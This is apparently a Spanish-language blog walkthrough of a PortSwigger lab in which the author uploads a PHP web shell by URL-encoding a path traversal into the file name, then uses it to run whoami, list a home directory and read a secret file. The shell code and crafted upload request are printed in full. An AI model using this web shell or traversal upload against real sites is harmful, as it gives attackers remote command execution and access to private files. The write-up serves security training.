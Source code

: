 ```yaml
---
title: Web shell upload via path traversal
description: Laboratorio de Portswigger sobre File Upload Vulnerabilities
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload Vulnerabilities
tags:
  - Portswigger Labs
  - File Upload Vulnerabilities
  - Web shell upload via path traversal
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, el servidor está configurado para `prevenir` la `ejecución` de `archivos` proporcionados por el usuario, pero esta restricción puede ser eludida explotando un `path traversal`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_5.png)

Si accedemos a `https://0af3002604e2eaaa825ad87900e80024.web-security-academy.net/files/avatars/shell.php` vemos que `no` se está `interpretando`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_6.png)

Al parecer los archivos `php` de este directorio `no` se `interpretan`, lo que debemos hacer es `subir` el `archivo` nuevamente y `capturar` la `petición` con `Burpsuite`. Una vez hecho esto vamos a efectuar un path traversal `filename="%2e%2e%2fshell.php"`, este payload es `../shell.php` pero tenemos que `url encodearlo` porque nos elimina el `../`

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fshell.php"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Si accedemos a `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=whoami` veremos que hemos logrado un `RCE (Remote Code Execution)` debido a que el `path traversal` ha sido exitoso y el directorio `/files` no tenía `ninguna restricción` a la hora de `interpretar` archivo `php`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_7.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_8.png)

Obtenemos el contenido del archivo secret `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_9.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-3/image_10.png)
